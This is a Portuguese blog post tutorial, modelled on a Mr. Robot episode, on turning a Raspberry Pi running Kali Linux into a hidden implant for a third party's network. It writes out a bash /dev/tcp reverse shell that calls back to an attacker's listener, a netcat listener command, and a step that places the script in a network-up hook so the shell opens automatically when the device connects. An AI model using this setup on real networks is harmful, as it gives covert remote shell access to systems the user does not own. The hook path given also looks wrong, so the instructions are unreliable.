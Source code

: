 ```yaml
---
layout: post
title: Mr. robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags:
  - "Raspberry"
author: lgribeiro
date: 2016-11-07
published: 2016-11-07
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não retrata fielmente as condições encontradas por Elliot no episódio eps1.3\_\_da3m0ns.mp4. Então, optei por adaptar um pouco o tutorial para ele se tornar mais parecido com o conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte mas no final, teremos um algo a mais.

1.Baixar o [Kali linux para ARM](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que se adequa ao hardware que estiver utilizando. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

![Bruh](/images/offensive-sec.png)


2.Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso no raspberry. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey. Utilizaremos o shell reverso abaixo.

```bash
bash -i >& /dev/tcp/<ip da maquina que está escutando>/8080 0>&1
```

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

```bash
chmod +x reverse
```

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com essa extensão.

3.Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

```bash
 nc -lvp 8080
```

4.Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto nos desviamos um pouco do artigo que utilizamos como base.
No lugar de teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. 

```bash
mv reverse /etc/network/interfaces/ifup
```

Dessa forma, assim que a interface de rede do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins](/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br


